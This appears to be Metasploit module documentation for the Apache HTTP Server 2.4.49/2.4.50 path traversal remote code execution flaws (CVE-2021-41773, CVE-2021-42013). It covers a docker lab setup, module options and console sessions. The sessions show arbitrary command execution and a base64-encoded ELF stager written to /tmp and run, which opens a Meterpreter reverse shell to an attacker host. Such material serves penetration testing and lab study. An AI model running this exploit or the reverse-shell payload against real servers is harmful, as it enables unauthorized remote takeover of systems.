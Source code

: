 This module exploits an unauthenticated RCE vulnerability which exists in Apache version 2.4.49 (CVE-2021-41773)
and 2.4.50 (CVE-2021-42013).

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a
path traversal attack to map URLs to files outside the expected document root.

If files outside of the document root are not protected by "require all denied" these requests can succeed.

Additionally this flaw could leak the source of interpreted files like CGI scripts.

If CGI scripts are also enabled for these aliased paths, this could allow for remote code execution.

It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient (CVE-2021-42013).

## Vulnerable Application

This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and Apache 2.4.50 and
not earlier versions.

### Make your lab

```
docker run -dit --name CVE-2021-41773 -p 8080:80 -v /opt/apache2.4.49:/usr/local/apache2/htdocs httpd:2.4.49
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-41773 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-41773
docker start CVE-2021-41773
```

--or--

```
docker run -dit --name CVE-2021-42013 -p 8080:80 -v /opt/apache2.4.50:/usr/local/apache2/htdocs httpd:2.4.50
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/AllowOverride none/# AllowOverride None/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i "0,/denied/s/denied/granted/" conf/httpd.conf
docker exec -it CVE-2021-42013 sed -i -E "s|all denied|all granted|g; s|#(.* cgid_.*)|\1|g" conf/httpd.conf
docker stop CVE-2021-42013
docker start CVE-2021-42013
```

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/apache_normalize_path_rce`
3. `set RHOSTS [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

### CVE

The vulnerability to use (Accepted: CVE-2021-41773, CVE-2021-42013). Default: CVE-2021-42013

### DEPTH

Depth for path traversal. Default: 5

### TARGETURI

Base path. Default: `/cgi-bin`

## Scenarios

### Command Line Interface

```
msf exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/apache_normalize_path_rce) > set target 1
target => 1
msf exploit(multi/http/apache_normalize_path_rce) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf exploit(multi/http/apache_normalize_path_rce) > set cmd uname -a
cmd => uname -a
msf exploit(multi/http/apache_normalize_path_rce) > run

[+] uname -a
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Generated payload: uname -a
[!] http://172.20.4.11:8080 - Dumping command output in response
Linux 184ef33f9859 5.14.0-1-amd64 #1 SMP Debian 5.14.6-3 (2021-09-28) x86_64 GNU/Linux

msf exploit(multi/http/apache_normalize_path_rce) > 
```

### Meterpreter

```
msf exploit(multi/http/apache_normalize_path_rce) > use exploit/multi/http/apache_normalize_path_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/apache_normalize_path_rce) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf exploit(multi/http/apache_normalize_path_rce) > setg rport 8080
rport => 8080
msf exploit(multi/http/apache_normalize_path_rce) > setg ssl false
ssl => false
msf exploit(multi/http/apache_normalize_path_rce) > setg verbose true
verbose => true
msf exploit(multi/http/apache_normalize_path_rce) > set lhost 172.20.7.36
lhost => 172.20.7.36
msf exploit(multi/http/apache_normalize_path_rce) > run

[*] Started reverse TCP handler on 172.20.7.36:4444
[*] Using auxiliary/scanner/http/apache_normalize_path as check
[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] http://172.20.4.11:8080 - Attempt to exploit for CVE-2021-42013
[*] http://172.20.4.11:8080 - Sending linux/x64/meterpreter/reverse_tcp command payload
[*] http://172.20.4.11:8080 - Generated command payload: echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwUByRRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g== | base64 -d > /tmp/PJaT; chmod +x /tmp/PJaT; /tmp/PJaT; rm -f /tmp/PJaT
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 172.20.4.11
[*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.4.11:48540) at 2021-10-08 13:58:13 +0400
[!] This exploit may require manual cleanup of '/tmp/PJaT' on the target

meterpreter >
```

## References

  1. <https://httpd.apache.org/security/vulnerabilities_24.html>
  2. <https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse>
  3. <https://github.com/projectdiscovery/nuclei-templates/blob/master/vulnerabilities/apache/apache-httpd-rce.yaml>
  4. <https://github.com/projectdiscovery/nuclei-templates/commit/9384dd235ec5107f423d930ac80055f2ce2bff74>
  5. <https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis>
